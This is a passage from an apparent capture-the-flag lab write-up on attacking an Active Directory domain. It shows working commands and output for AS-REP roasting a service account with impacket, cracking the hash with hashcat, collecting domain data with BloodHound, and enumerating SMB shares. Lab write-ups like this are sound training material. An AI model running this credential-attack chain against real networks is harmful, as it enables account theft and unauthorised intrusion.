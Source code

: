 It seems that there are a few changes implemented on the development side for the `SampleScanner` app itself. The functionality seems to be integrated with a development site and included better support.

That being said, we do seem to also have an account name that we can potentially try to exploit - `svc_scan`. Let's do our Kerberos checks for this user along with the other default accounts.

```
└─$ impacket-GetNPUsers -dc-ip 10.10.126.214 -request -usersfile ul.txt -no-pass bruno.vl/'daz'@10.10.126.214
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
$krb5asrep$23$svc_scan@BRUNO.VL:cc4e0a77789388e39[...snip...]2be71ab6dd19a97dcc49c6
```

We were successfully able to perform an ASREPRoasting attack against `svc_scan`, meaning we can try and crack this encrypted ASREP ticket for a plaintext password. Our hash identifier is 18200, as you can find [here](https://hashcat.net/wiki/doku.php?id=example_hashes).

```
└─$ hashcat -a 0 -m 18200 svc_scan.txt /usr/share/wordlists/rockyou.txt
......
b6252092fb9116194a8add89f17392c2be71ab6dd19a97dcc49c6:[...snip...]

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
```

As you can see, we were able to crack the ASREP hash and now have the plaintext password for `svc_scan`.

There are a few things we could do here, such as dumping the domain (given that these are LDAP credentials) or look at SMB/FTP to further our foothold.

To dump the domain, we'll do the following with the [Bloodhound Python ingestor](https://github.com/dirkjanm/BloodHound.py). If you haven't set up Bloodhound before, [this resource](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux) should be helpful for you.

```
└─$ bloodhound-python -d 'bruno.vl' -u 'svc_scan' -p '[...snip...]' -c all -ns 10.10.126.214 --zip
```

You should then be able to import the compressed domain object archive into Bloodhound to view all the domain objects within LDAP.

![](/images/vulnlab/bruno-vl/e.png)

It does not seem as though our user has any obscenely prevalent privileges, so we'll have to look elsewhere.

Let's have a look at SMB given that we have credentials to a legitimate user now.

```
└─$ smbclient -L 10.10.126.214 -U 'svc_scan'
Password for [WORKGROUP\svc_scan]:

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
CertEnroll      Disk      Active Directory Certificate Services share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
queue           Disk
SYSVOL          Disk      Logon server share
```